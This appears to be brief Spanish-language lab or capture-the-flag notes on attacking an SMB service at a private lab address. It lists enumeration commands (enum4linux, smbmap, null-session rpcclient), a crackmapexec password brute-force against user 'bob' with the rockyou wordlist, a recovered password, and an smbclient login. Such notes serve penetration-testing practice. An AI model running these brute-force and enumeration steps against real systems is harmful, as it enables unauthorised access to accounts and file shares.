 ## EXPLOTACION

Sino funciona hydra:
crackmapexec smb 172.17.0.2 -u bob -p /usr/share/wordlists/rockyou.txt

## RECONOCIMIENTO

enum4linux 172.17.0.2 

smbmap -H 172.17.0.2 -P 139

rpcclient -U '' -N 172.17.0.2

smbmap -H 172.17.0.2 -u "bob" -p "star"


## LOGIN

smbclient //172.17.0.2/html -U bob